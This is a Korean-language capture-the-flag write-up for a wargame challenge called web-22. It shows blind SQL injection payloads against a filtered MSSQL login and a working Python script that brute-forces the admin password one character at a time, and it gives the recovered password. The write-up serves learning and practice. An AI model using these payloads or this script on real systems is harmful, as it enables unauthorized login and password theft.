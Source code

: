 # web-22

## blind SQL injection

### 문제 설명
    id, pw 입력란이 있다. 
    Hint로 guest, guest가 주어져있고, admin의 pw를 알아내야한다. 
    select, union, or 등등 많은 구문이 filtering되고 있다.

    정상 로그인시, OK username
    틀린 정보 입력시, False
    필터링 구문 입력시, No hacking

    SQL 구문을 삽입하여도 출력하는 정보는 참, 거짓이 전부이다. (Blind)

### SQL 구조 파악
- 입력값이 SQL 구문에 어떻게 쓰이는지 알아낸다. 
- `SELECT * FROM user WHERE id='아이디' AND pw='비번'`   
- id=`admin' or 1--`, pw=`a`을 넣으면 admin으로 로그인 되는 것을 확인한다.   

### 비번 길이 알아내기
- burpsuite intruder payload
- `admin' AND LENGTH(pw)=§a§--` 1~20까지 넣어본다.
- 다 틀렸다고 나온다.. mySQL이 아닌갑다.
- `admin AND LEN(pw)=§a§` mssql의 LEN() 함수를 이용해본다.
- 10일때, 로그인에 성공한다. 즉, pw의 길이는 10이다.

### 비번 문자열 알아내기
- burpsuite intruder payload
- `admin' AND SUBSTRING(pw,1,1)='§a§'--`
    - SUBSTRING([칼럼명], [시작위치], [길이])
    - 따라서 윗구문은 pw칼럼의 첫번째 문자를 알아내는 payload임.
- payload type: Brute forcer// 알파벳, 숫자 모두 set에 추가
- `SUBSTRING(pw,2,1)='§a§'--` 시작위치를 바꿔가면서 10번하면 되긴한데.. 이걸 파이썬 코딩으로 한방에! 시원하게! 알아내봅시다!

### 파이썬 스크립트 작성

    import requests
    from bs4 import BeautifulSoup

    for i in range(1, 20):
        URL = f"http://suninatas.com/challenge/web22/web22.asp?id=admin'+AND+LEN(pw)={i}--&pw=1"
        res = requests.get(URL)
        soup = BeautifulSoup(res.text, 'html.parser')
        try:
            target = soup.find_all("font")[2].get_text()
            if target == 'admin':
                pw_len = i
                break
        except:
            pass

    pw = []
    for i in range(1, pw_len+1):
        for j in range(32, 128):
            payload = chr(j)
            URL = f"http://suninatas.com/challenge/web22/web22.asp?id=admin'+AND+SUBSTRING(pw,{i},1)='{payload}'--&pw=a"
            res = requests.get(URL)
            soup = BeautifulSoup(res.text, 'html.parser')
            try:
                target = soup.find_all("font")[2].get_text()
                if target == 'admin':
                    pw.append(payload)
            except:
                pass

    pw = "".join(pw)
    print(f"password: {pw}")

- 돌리면, `password: N1c3Bilnl)` 비번이 한방에 나온다. 

> 블라인드 SQL injection은 데이터가 눈에 보이게 출력되지 않고, 렌딩페이지의 작은 차이로 데이터의 유무만 판단할 수 있는 경우에 이용된다.   
이 문제에서는 로그인에 성공이 되는지 마는지로 데이터를 찾아내었다.    
burpsuite말고, 파이썬 스크립트로도 문제를 풀어봤는데 재밌네.